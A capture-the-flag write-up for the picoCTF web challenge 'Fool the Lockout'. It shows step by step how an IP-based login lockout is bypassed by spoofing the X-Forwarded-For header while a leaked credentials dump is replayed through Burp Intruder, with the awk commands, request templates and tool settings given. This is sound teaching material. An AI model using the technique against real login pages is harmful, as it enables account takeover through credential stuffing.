










# Fool the Lockout

**Category:** Web Exploitation
**Difficulty:** Medium
**Author:** David Gaviria

---

## Challenge Description

The challenge presents a login page protected by an IP-based rate limit.

The application is designed to block brute-force and credential stuffing attempts after too many failed logins from the same IP address.

We are given:

```text
App source code
Credentials dump
Web instance
```

The goal is to bypass the lockout mechanism, find the valid username/password pair, log in, and capture the flag.

---

## Source Code Review

I started by reviewing the provided Flask source code.

The application defines the following rate limit values:

```python
MAX_REQUESTS = 10
EPOCH_DURATION = 30
LOCKOUT_DURATION = 120
```

This means that after more than 10 requests in a short time window, the client is temporarily locked out.



---

## Understanding the Rate Limit Logic

The rate limit is stored in the `request_rates` dictionary.

Each client IP has:

```text
num_requests
epoch_start
lockout_until
```

The important part is that the application tracks requests by IP address:

```python
client_ip = request.remote_addr
```

For each POST request, the counter is incremented:

```python
request_rates[client_ip]['num_requests'] += 1
```

If the counter becomes greater than `MAX_REQUESTS`, the IP is locked out.



So the application attempts to prevent brute forcing by counting login attempts per IP address.

---

## Login and Flag Logic

The `/login` route reads the submitted username and password:

```python
user_input = request.form['username']
pswd_input = request.form['password']
```

If the username does not exist or the password is wrong, the page returns:

```text
Invalid username or password.
```

If the credentials are correct, the application stores the username in the session and redirects to the homepage:

```python
session["user"] = user_input
return redirect(url_for("index"))
```

The homepage checks that the user is logged in, then reads the flag from:

```python
/challenge/flag.txt
```



This means a successful login is enough to access the flag.

---

## Real Credential Setup

At startup, the application loads the real username and password from:

```text
/challenge/profile.json
```

Then it adds that pair to the in-memory `user_db`:

```python
add_new_user(username, password)
```



So the correct credentials are hidden inside the credential dump, and the task is to find the matching pair without getting locked out.

---

## Credentials Dump

The provided credentials dump contains leaked username/password pairs in the following format:

```text
username;password
```

Example:

```text
rora;winner1
birendra;rumble
khalid;sting
```



To use the dump with Burp Intruder, I split the file into usernames and passwords while preserving the original order.

---

## Preparing Payload Files

Because the dump uses `username;password`, I generated separate files for Burp Intruder:

```bash
awk -F';' 'NF==2 {print $1}' creds-dump.txt > usernames.txt
awk -F';' 'NF==2 {print $2}' creds-dump.txt > passwords.txt
```

Then I generated fake IP addresses:

```bash
n=$(wc -l < usernames.txt)
seq 1 "$n" | awk '{print "10.10.0." $1}' > ips.txt
```

The important point is that all files must have the same number of lines.

```text
usernames.txt
passwords.txt
ips.txt
```

This allows Burp Intruder Pitchfork mode to test one username with its corresponding password.

---

## First Manual Attempt

Before automation, I tested a random login attempt manually.

The login failed with:

```text
Invalid username or password.
```



This confirmed that the login form works normally and returns a clear failure message for invalid credentials.

---

## Capturing the Login Request

Using Burp Suite, I captured a normal login request:

```http
POST /login HTTP/1.1
Host: candy-mountain.picoctf.net:53039
Content-Type: application/x-www-form-urlencoded

username=cyberdune&password=club
```



This request was sent to Burp Intruder.

---

## Burp Intruder Setup

In Burp Intruder, I used **Pitchfork attack**.

Pitchfork is important because it keeps the payloads aligned by line number:

```text
line 1 username + line 1 password
line 2 username + line 2 password
line 3 username + line 3 password
```

The request was configured with three payload positions:

```http
X-Forwarded-For: §10.10.0.1§

username=§cyberdune§&password=§club§
```

Payload sets:

```text
Payload set 1: ips.txt
Payload set 2: usernames.txt
Payload set 3: passwords.txt
```



The goal of the `X-Forwarded-For` header was to make each login attempt appear as if it came from a different client IP.

---

## Slowing Down the Attack

To avoid triggering the lockout too aggressively, I created a custom Burp Resource Pool.

The resource pool was configured as:

```text
Maximum concurrent requests: 1
Delay between requests: 3500 milliseconds
Mode: Fixed
```



This made the attack slower and more stable.

---

## Finding the Valid Credentials

After running the Intruder attack, one result stood out:

```text
Payload IP: 10.10.0.73
Username: princeton
Password: olympic
Status: 302
```


The `302` response indicates a successful login because the application redirects authenticated users to `/`.

The valid credentials were:

```text
Username: princeton
Password: olympic
```

---

## Successful Login Response

The successful login response returned:

```http
HTTP/1.1 302 FOUND
Location: /
Set-Cookie: session=...
```



The `Set-Cookie` header confirms that the server created an authenticated session.

---

## Retrieving the Flag

After logging in with the valid credentials, the homepage displayed the authenticated user and the flag.


The flag is redacted in this public writeup:

```text
picoCTF{...PWNED...}
```

---

## Why the Bypass Works

The application tries to prevent brute forcing by rate limiting login attempts per IP address.

However, by sending each attempt with a different IP value through the `X-Forwarded-For` header, the requests avoided being treated as repeated attempts from the same client.

In Burp Intruder, the attack used:

```text
Payload set 1: rotating IP addresses
Payload set 2: usernames
Payload set 3: passwords
```

This allowed the credential list to be tested while reducing the chance of hitting the lockout.

---

## Attack Flow

```text
Review source code
    ↓
Identify IP-based rate limit
    ↓
Confirm login success redirects to /
    ↓
Inspect credentials dump format
    ↓
Split dump into usernames and passwords
    ↓
Generate rotating IP payload list
    ↓
Capture POST /login in Burp Suite
    ↓
Send request to Intruder
    ↓
Use Pitchfork attack with 3 payload sets
    ↓
Slow the attack using Resource Pool
    ↓
Find 302 response
    ↓
Extract valid credentials
    ↓
Log in as princeton
    ↓
Read the flag
```

---

## Tools Used

```text
Burp Suite
Burp Intruder
Linux terminal
Browser
Source code review
```

---

## Key Takeaways

* IP-based lockouts can be bypassed if the application trusts spoofable client IP headers.
* Credential stuffing works by testing known username/password pairs, not random guesses.
* Burp Intruder Pitchfork is useful when usernames and passwords must remain paired line-by-line.
* A successful login was identified by the `302` redirect and `Set-Cookie` session header.
* Rate limiting should not rely blindly on user-controlled headers such as `X-Forwarded-For`.

---

## Final Flag

```text
picoCTF{...PWNED...}
```
